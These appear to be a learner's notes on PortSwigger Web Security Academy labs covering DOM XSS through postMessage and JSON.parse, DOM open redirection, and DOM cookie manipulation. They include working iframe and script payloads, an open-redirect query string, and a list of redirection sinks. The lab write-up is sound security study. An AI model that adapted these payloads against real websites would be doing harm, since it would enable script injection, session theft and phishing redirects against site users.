 ### LAB: DOM XSS using web messages and JSON.parse
Idea is the same as the above lab.

    <iframe
        src="https://0ad60066038f14938022803200b0008e.web-security-academy.net/"
        onload="sendJSONMessage()"
    ></iframe>
    <script>
        sendJSONMessage = () => {
            const iframe = document.querySelector("iframe");
            const message = {
            type: "load-channel",
            url: "javascript:print()",
            };
            iframe.contentWindow.postMessage(JSON.stringify(message), "*");
        };
    </script>


### LAB: DOM-based open redirection
- Sinks that leads to DOM-based open redirection:
    ```
    > location
    > location.host
    > location.hostname
    > location.href
    > location.pathname
    > location.search
    > location.protocol
    > location.assign()
    > location.replace()
    > open()
    > element.srcdoc
    > XMLHttpRequest.open()
    > XMLHttpRequest.send()
    > jQuery.ajax()
    > $.ajax()
    ```
- Notice the 'Back to blog' button contains a sink:
`onclick='returnUrl = /url=(https?:\/\/.+)/.exec(location); location.href = returnUrl ? returnUrl[1] : "/"'`
- This Regex `/url=(https?:\/\/.+)/.exec(location)` will match anything that starts with `url=http://` or `url=https://`
- Inject the exploit server URL as the parameter and click on the 'Back to blog' button to trigger the redirection: 
`?postId=6&url=https://exploit-0a9b008d03535d23803389b401f60016.exploit-server.net/exploit`

### LAB: DOM-based cookie manipulation
Notice that the value of `document.cookie` (which can be controlled via the `window.location`) is reflected in the `href` attribue of `<a>` in the next page we visit.
Use this script to first set the user to the malicious URL (with the `script` injected) then redirects to another page where the XSS occurs (using `onload` event and the `if` condition to prevent infinite loop):

    <iframe src="https://0a4300c303eb674d801062d20072008c.web-security-academy.net/product?productId=7'><script>print()</script>" onload="if(!window.x)this.src='https://0a4300c303eb674d801062d20072008c.web-security-academy.net/';window.x=1">